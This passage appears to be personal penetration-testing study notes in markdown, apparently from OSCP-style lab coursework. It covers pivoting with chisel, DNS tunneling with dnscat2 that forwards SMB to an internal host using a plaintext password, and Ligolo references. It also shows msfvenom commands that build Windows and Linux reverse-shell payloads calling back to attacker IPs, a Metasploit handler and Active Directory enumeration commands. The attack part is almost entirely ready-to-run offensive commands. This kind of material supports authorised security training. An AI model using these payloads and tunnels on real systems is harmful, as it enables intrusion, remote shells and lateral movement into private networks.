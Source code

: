 `proxychains firefox http://127.0.0.1:8000/`
> Does not work.

`./chisel client IP_Kali:8080 R:8000:127.0.0.1:8000` 
> Navigating to http://127.0.0.1:8000/ works!

<a name="dns-tunneling-with-dnscat2"></a>
## DNS Tunneling with dnscat2

`kali@felineauthority:~$ dnscat2-server feline.corp
dnscat2> windows`

`dnscat2> window -i 1`

`database_admin@pgdatabase01:~/dnscat$ ./dnscat feline.corp`

`command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.2.11:445`

`kali@felineauthority:~$ smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234`

<a name="ligolo"></a>
## Ligolo

[https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5)
[https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)

> To remove tun interface

`$ sudo ip link del ligolo`

<a name="metasploit"></a>
# Metasploit

`$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.155 LPORT=4445 -f exe -o nonstaged.exe`

`$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=4445 -f elf -o reverse.elf`

`$ msfconsole -q -x 'use multi/handler;set payload  windows/x64/shell_reverse_tcp;set lhost 192.168.45.187; set lport 4445;run'`

<a name="active-directory-introduction-and-enumeration"></a>
# Active Directory Introduction and Enumeration

<a name="manual-enumeration-expanding-our-repertoire"></a>
## Manual Enumeration - Expanding our Repertoire

`C:\> net user /domain`
`C:\> net user jeffadmin /domain`
`C:\> net group /domain`
`C:\> net group "Sales Department" /domain`

